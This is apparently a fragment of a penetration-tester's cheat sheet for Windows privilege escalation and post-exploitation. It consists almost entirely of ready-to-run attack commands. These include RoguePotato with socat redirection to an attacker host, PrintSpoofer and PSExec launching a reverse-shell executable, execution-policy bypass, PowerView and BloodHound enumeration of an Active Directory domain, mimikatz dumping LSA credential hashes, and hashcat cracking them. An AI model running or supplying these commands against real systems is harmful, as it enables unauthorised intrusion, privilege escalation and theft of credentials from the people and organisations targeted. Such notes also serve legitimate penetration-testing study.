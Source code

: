 ```powershell
rdesktop -u <user> <IP_ADDR>
```

---

# ROGUE POTATO

```powershell
sudo socat tcp-listen:135,reuseaddr,fork tcp:<IP_ADDR>.<PORT>
.\PSExec64.exe -i -u "nt authority\local service" C:\Temp\reverse.exe
.\RoguePotato.exe -r <IP_ADDR> -e "C:\PrivEsc\reverse.exe" -l <PORT>
```

---

# PRINT SPOOFER

```powershell
.\PSExec64.exe -i -u "nt authority\local service" C:\Temp\reverse.exe
.\PrintSpoofer.exe -c "C:\Temp\reverse.exe" -i
```

--- 

# PORT-EXPLOITATION - PERSISTENCE

### Enumeration w/PowerView

```powershell
powershell -ep bypass
.\PowerView.ps1
Get-NetUser | select cn
Get-NetGroup -GroupName *admin*
#https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993
```

### Enumeration w/BloodHound

```powershell
neo4j console
powershell -ep bypass
.\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
```

### Dump Hashes w/mimikatz

```powershell
.\mimikatz.exe
privilege::debug
lsadump::lsa /patch
hashcat -m 1000 <hash> /usr/share/wordlists/rockyou.txt
```
